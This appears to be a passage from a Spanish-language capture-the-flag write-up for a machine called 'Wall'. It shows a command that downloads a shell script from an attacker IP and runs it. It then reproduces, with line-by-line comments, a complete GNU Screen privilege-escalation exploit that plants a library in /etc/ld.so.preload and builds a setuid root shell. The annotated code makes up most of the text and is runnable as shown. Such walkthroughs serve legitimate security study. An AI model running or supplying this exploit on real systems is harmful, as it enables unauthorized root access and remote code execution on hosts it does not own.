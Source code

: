 ``` wget 10.10.14.16/index.html -O /tmp/shell; bash -i /tmp/shell ```
www-data@Wall:/tmp$ chmod +x screen.sh
www-data@Wall:/tmp$ ./screen.sh
# whoami
root
# bash                         
root@Wall:/etc#
```
El exploit utiliza este sistema:  
```console
$:~ screen -D -m -L archivo echo "Hola Mundo"
$:~ ls -l bla.bla
-rw-rw---- 1 root root 6 Jan 24 19:58 archivo
$:~ cat archivo
Hola Mundo
```
 
41154.sh > Vamos a analizar el exploit...  

```bash
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c  # Librería en código c
#include <stdio.h> 
#include <sys/types.h>
#include <unistd.h>  -> tipicas librerias de c
__attribute__ ((__constructor__))
void dropshell(void){ 
    chown("/tmp/rootshell", 0, 0); # -> /tmp/rootshell será propiedad de root 
    chmod("/tmp/rootshell", 04755); # -> también suid con privielgios máximos
    unlink("/etc/ld.so.preload"); # -> deslinkea la libreria que se carga siempre al iniciar screen
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c # este codigo que ha creado en c lo compila en una libreri
rm -f /tmp/libhax.c

cat << EOF > /tmp/rootshell.c # Una vez hecho esto crea un script en c que elevará privilegios
#include <stdio.h>
int main(void){
    setuid(0); 
    setgid(0);
    seteuid(0);
    setegid(0); # -> todo esto eleva privilegios para los comandos futuros
    execvp("/bin/sh", NULL, NULL); #  o sea para esto "bin/sh"
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c # lo compila
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # mete la libreria esta en ld.so.preload
screen -ls # screen itself is setuid, so... # Ahora se ejecuta con la libreria maliciosa el script de altos privs
/tmp/rootshell
```